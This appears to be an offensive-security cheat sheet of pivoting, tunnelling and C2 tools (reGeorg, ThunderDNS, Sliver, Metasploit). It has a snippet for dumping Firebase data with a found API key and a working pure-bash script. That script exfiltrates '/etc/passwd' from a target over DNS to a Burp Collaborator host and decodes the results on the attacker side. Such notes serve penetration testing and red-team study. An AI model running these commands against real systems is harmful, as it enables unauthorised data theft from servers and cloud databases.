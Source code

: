 https://github.com/sensepost/reGeorg
<br># The successor to reDuh, pwn a bastion webserver and create SOCKS proxies through the DMZ. Pivot and pwn.

https://github.com/fbkcs/ThunderDNS
<br># This tool can forward TCP traffic over DNS protocol. Non-compile clients + socks5 support.

https://github.com/BishopFox/sliver
<br># Sliver is an open source cross-platform adversary emulation/red team framework, it can be used by organizations of all sizes to perform security testing. Sliver's implants support C2 over Mutual TLS (mTLS), WireGuard, HTTP(S), and DNS and are dynamically compiled with per-binary asymmetric encryption keys.

https://github.com/rapid7/metasploit-framework
<br># The Metasploit Framework (MSF) is far more than just a collection of exploits–it is also a solid foundation that you can build upon and easily customize to meet your needs.

https://cloud.hacktricks.xyz/pentesting-cloud/gcp-pentesting/gcp-services/gcp-databases-enum/gcp-firebase-enum
https://blog.assetnote.io/bug-bounty/2020/02/01/expanding-attack-surface-react-native/
<br># Extract data from Firebase with apikey.
```
$ python3 -m venv venv
$ source venv/bin/activate
$ python3 -m ensurepip
$ pip3 install pyrebase4
$ python3
>>> import pyrebase
>>> config = {"apiKey":"AIz...","authDomain":"project.firebaseapp.com","databaseURL":"https://project.firebaseio.com"...}
>>> firebase = pyrebase.initialize_app(config)
>>> db = firebase.database()
>>> print(db.get())
```

<br># Pure bash exfiltration over dns
<br>## Execute on target server (replace YOURBCID)
```
CMD="cat /etc/passwd"
HID=$(tr -dc A-Za-z0-9 </dev/urandom | head -c 5)
CMDID=$(tr -dc A-Za-z0-9 </dev/urandom | head -c 5)
BC="YOURBCID.burpcollaborator.net"
D="$HID-$CMDID.$BC"
M=$($CMD 2>&1); T=${#M}; O=0; S=30; I=1; while [ "${T}" -gt "0" ]; do C=$(echo ${M:${O}:${S}}|base64); C=${C//+/_0}; C=${C//\//_1}; C=${C//=/_2}; host -t A $I.${C}.$D&>/dev/null; O=$((${O}+${S})); T=$((${T}-${S})); I=$((I+1)); done
```

<br>## Execute on attacker machine (replace YOURBIID) and extract Burp Collaborator results
```
BCPURL="https://polling.burpcollaborator.net/burpresults?biid=YOURBIID"
RESULTS=$(curl -sk "${BCPURL}")
```
<br>## Get IDs available
```
echo "${RESULTS}" | jq -cM '.responses[]' | while read LINE; do if [[ $LINE == *'"protocol":"dns'* ]]; then echo ${LINE} | jq -rM '.data.subDomain' | egrep --color=never "^[[:digit:]]+\..*\..*\.$BC$"; fi; done | sed -r 's/^[[:digit:]]+\.[^.]+\.([^.]+)\..*/\1/g' | sort -u
```
<br>## Update ID and get command result (repeat for each ID)
```
ID="xxxxx-xxxxx"
echo "${RESULTS}" | jq -cM '.responses[]' | while read LINE; do if [[ $LINE == *'"protocol":"dns'* ]]; then echo ${LINE} | jq -rM '.data.subDomain' | egrep "^[[:digit:]]+\..*\..*\.$BC$"; fi; done | egrep "$ID" | sort -t. -k3 -g | sed -r 's/^[[:digit:]]+\.([^.]+)\..*/\1/g' | while read i; do i=${i//_0/+}; i=${i//_1/\/}; i=${i//_2/=}; echo ${i} | base64 -d; done
```
